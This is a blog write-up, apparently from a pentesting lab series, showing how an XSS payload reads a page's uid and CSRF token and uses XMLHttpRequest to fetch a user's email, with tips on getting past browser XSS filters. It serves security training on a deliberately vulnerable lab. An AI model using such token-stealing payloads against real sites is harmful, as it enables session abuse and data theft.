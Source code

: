 ```yaml
---
author: AnirudhAnand
comments: true
date: 2014-11-02 07:31:40+00:00
layout: post
slug: csrf-token-stealing-xss-javascript-pentesters-task-17-write
title: 'CSRF token stealing with XSS: JS for Pentesters task 17 write up'
wordpress_id: 5786
categories:
- jsp
- javascript
- xss
- security-tube
summary: writeup for task-17 of the JS for pentesters series by security-tube - CSRF token stealing
---
```


We have already seen several challenges already which we solved using XMLHttpRequest(). This is yet another challenge which can be solved with the same but the difference is that in order to the email address, we need to add something called **csrf_token** to url and only then our session is valid. csrf_tokens are generally used to protect the sessions and to prevent un-authorized entries. But if a site is vulnerable to XSS, csrf token protection can easily be bypassed as JavaScript can read csrf tokens. Here is a very simple example illustrating the same.

[JS for Pentesters task 17](http://pentesteracademylab.appspot.com/lab/webapp/jfp/17)

Our objective is to Find John's Email Address using an XSS vulnerability on that page and Display the Email address in the div with id "result". A condition to follow is that No Hardcoded values can be used - everything has to be figured out dynamically. For the ease, the token and uid has been saved in the HTML file itself so that we can hard code it to break the challenge but the Author has specifically mentioned that everything has to be figured out dynamically ! Let us see how the payload looks like:

{% highlight html lineos %}
    <script>
        var request = new XMLHttpRequest();    
        request.onreadystatechange = function() {
            if (request.readyState == 4 && request.status == 200) {
                document.getElementById("result").innerHTML = request.responseText;
            }
        };
        var uid = document.getElementsByTagName("p")[0].innerHTML;
        var csrf_token = document.getElementsByTagName("p")[1].innerHTML;
        uid = uid.split(":")[1];
        csrf_token = csrf_token.split(":")[1];
        request.open("GET", "/lab/webapp/jfp/17/email?uid=" + uid + "&csrf_token=" + csrf_token, true);
        request.send();
    </script>
{% endhighlight %}

So what have we done here basically is that we took the **uid** and **csrt_token** dynamically from the HTML page so that even if the token or uid changes in the future, the payload still works. Then we added the parameters to the URL and used it with an XMLHttpRequest() and we got back the email address as response.

`split()` is a JavaScript function that splits a string into 2 and return a list with 2 split elements. Since the uid and csrf was in the format **id:token, **we need to split it and take token value from it so that we can use it in making an XMLHttpRequest().

**Note:**

1) If you didn’t understand the payload properly, I strongly recommend you read the [basics of XMLHttpRequest()]({{ site.url }}/2014/09/13/ajax-everything-you-should-know-about-xmlhttprequest/) first and then try again.

2) While playing with XSS challenges, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt **XSS** stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

3) You have to [URL encode ](meyerweb.com/eric/tools/dencoder/)the payload before the injection via the url parameter or else this will fail to work

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..
